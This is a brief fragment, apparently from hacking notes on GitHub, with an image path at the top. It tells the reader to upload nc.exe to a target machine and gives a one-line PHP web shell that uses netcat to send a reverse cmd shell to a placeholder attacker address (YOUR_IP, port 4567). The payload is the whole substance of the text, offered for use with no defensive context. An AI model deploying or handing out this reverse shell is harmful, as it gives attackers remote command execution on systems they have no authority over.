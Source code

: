 ## Make sure that nc.exe is already uploaded at target machine
```
put nc.exe
```

```
<?php
system('nc.exe YOUR_IP 4567 -e cmd')
?>
```
